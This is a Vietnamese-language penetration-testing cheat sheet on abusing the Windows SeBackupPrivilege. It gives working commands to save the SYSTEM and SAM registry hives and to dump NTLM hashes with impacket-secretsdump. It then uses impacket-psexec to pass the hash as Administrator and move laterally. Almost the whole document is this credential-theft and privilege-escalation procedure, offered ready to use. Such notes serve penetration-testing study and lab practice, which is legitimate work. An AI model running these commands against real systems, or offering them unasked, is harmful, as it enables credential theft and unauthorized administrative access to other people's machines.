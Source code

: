 # SeBackupPrivilege

## Điểm chính khai thác

* Khai thác **SeBackupPrivilege** để truy cập và trích xuất các hive registry **SYSTEM** và **SAM**, chứa cấu hình hệ thống và dữ liệu tài khoản người dùng, bao gồm NTLM hashes
* Các NTLM hashes trích xuất từ SAM hive có thể được sử dụng trong tấn công **pass-the-hash** để xác thực với tư cách người dùng đặc quyền (như Administrator) mà không cần mật khẩu plaintext
* Kỹ thuật này đặc biệt hiệu quả trong môi trường Active Directory, nơi tài khoản quản trị cục bộ (như Administrator hoặc daveadmin) có thể được sử dụng để di chuyển ngang

***

## Các bước khai thác

### Kiểm tra lỗ hổng

Kiểm tra quyền **SeBackupPrivilege** của tài khoản hiện tại để xác định khả năng khai thác:

```
whoami /priv
```

***

### Thực thi khai thác

Sao lưu hive **SYSTEM** vào thư mục do người dùng kiểm soát để lấy dữ liệu cấu hình hệ thống và khóa mật mã:

```
reg save HKLM\SYSTEM SYSTEM
```

Sao lưu hive **SAM** vào thư mục do người dùng kiểm soát để lấy dữ liệu tài khoản người dùng, bao gồm NTLM hashes:

```
reg save HKLM\SAM SAM
```

Tải các hive **SYSTEM** và **SAM** về máy Kali để trích xuất NTLM hashes

Trích xuất NTLM hashes từ các hive bằng **impacket-secretsdump** trên máy Kali:

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

Thực hiện tấn công **pass-the-hash** với NTLM hash để xác thực với tư cách người dùng đặc quyền:

{% code overflow="wrap" %}

```
impacket-psexec -hashes :<hash> <user>@<ip>
```

{% endcode %}
